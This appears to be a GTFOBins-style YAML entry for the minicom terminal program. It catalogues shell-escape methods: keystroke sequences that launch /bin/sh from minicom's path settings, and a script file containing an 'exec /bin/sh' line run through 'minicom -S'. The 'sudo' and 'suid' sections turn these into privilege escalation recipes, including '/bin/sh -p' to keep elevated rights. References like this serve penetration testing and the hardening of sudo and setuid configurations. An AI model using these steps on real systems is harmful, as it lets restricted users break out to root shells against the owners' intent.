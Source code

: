 ```yaml
---
description: Note that in some versions, `Meta-Z` is used in place of `Ctrl-A`.
functions:
  shell:
    - description: |
        Start the following command to open the TUI interface, then:
        1. press `Ctrl-A o` and select `Filenames and paths`;
        2. press `e`, type `/bin/sh`, then `Enter`;
        3. Press `Esc` twice;
        4. Press `Ctrl-A k` to drop the shell.
        After the shell, exit with `Ctrl-A x`.
      code: |
        minicom -D /dev/null
    - description: |
        After the shell, exit with `Ctrl-A x`.
      code: |
        TF=$(mktemp)
        echo "! exec /bin/sh <$(tty) 1>$(tty) 2>$(tty)" >$TF
        minicom -D /dev/null -S $TF
        reset^J
  sudo:
    - description: |
        Start the following command to open the TUI interface, then:
        1. press `Ctrl-A o` and select `Filenames and paths`;
        2. press `e`, type `/bin/sh`, then `Enter`;
        3. Press `Esc` twice;
        4. Press `Ctrl-A k` to drop the shell.
        After the shell, exit with `Ctrl-A x`.
      code: |
        sudo minicom -D /dev/null
  suid:
    - description: |
        Start the following command to open the TUI interface, then:
        1. press `Ctrl-A o` and select `Filenames and paths`;
        2. press `e`, type `/bin/sh -p`, then `Enter`;
        3. Press `Esc` twice;
        4. Press `Ctrl-A k` to drop the shell.
        After the shell, exit with `Ctrl-A x`.
      code: |
        ./minicom -D /dev/null
---
```

